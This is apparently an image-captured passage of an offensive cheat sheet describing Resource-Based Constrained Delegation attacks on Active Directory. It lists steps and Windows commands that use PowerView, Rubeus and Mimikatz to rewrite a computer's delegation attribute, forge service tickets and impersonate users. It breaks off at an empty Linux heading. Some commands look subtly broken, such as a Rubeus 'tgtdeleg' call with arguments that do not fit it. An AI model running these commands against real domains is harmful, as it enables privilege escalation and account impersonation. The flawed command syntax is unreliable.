 
### **2. Basic Steps for RBCD Attack**

1. **Compromise a Low-Privileged Account:**
   - Obtain control over an account, either by obtaining credentials or compromising a machine where you have administrative privileges.

2. **Identify a Target Service with RBCD:**
   - Find a service account or computer object that has RBCD enabled.

3. **Modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` Attribute:**
   - Use a compromised account or computer object to modify the target service’s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to allow delegation on behalf of the user you wish to impersonate.

4. **Request a Service Ticket (TGS) as the Impersonated User:**
   - Request a service ticket from the Kerberos Key Distribution Center (KDC) for the target service as the user you want to impersonate.

5. **Use the Service Ticket to Access the Service:**
   - Use the obtained service ticket to authenticate to the target service and perform actions as the impersonated user.

---

### **3. RBCD Attack Commands**

#### **Windows:**

1. **Enumerate RBCD:**
   - Identify accounts or services with RBCD enabled:
   ```powershell
   Get-ADComputer -Filter * -Property msDS-AllowedToActOnBehalfOfOtherIdentity
   ```

2. **Set `msDS-AllowedToActOnBehalfOfOtherIdentity` Attribute:**
   - Using PowerView (part of PowerShell Empire):
   ```powershell
   $SID = (Get-DomainUser -Identity <username>).SID
   $SDDL = "O:SYG:SYD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$SID)"
   Set-DomainObject -Identity <target_computer> -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDDL}
   ```

3. **Request a Service Ticket (TGS) for the Target Service:**
   - Using **Rubeus** to request a TGS as the impersonated user:
   ```powershell
   Rubeus.exe tgtdeleg /user:<target_user> /rc4:<NTLM_hash> /domain:<domain> /sid:<domain_SID> /target:<target_service>
   ```

4. **Use the Ticket for Impersonation:**
   - Use the service ticket with **Mimikatz** or **Rubeus**:
   ```powershell
   kerberos::ptt <TGS_ticket.kirbi>
   ```

#### **Linux:**
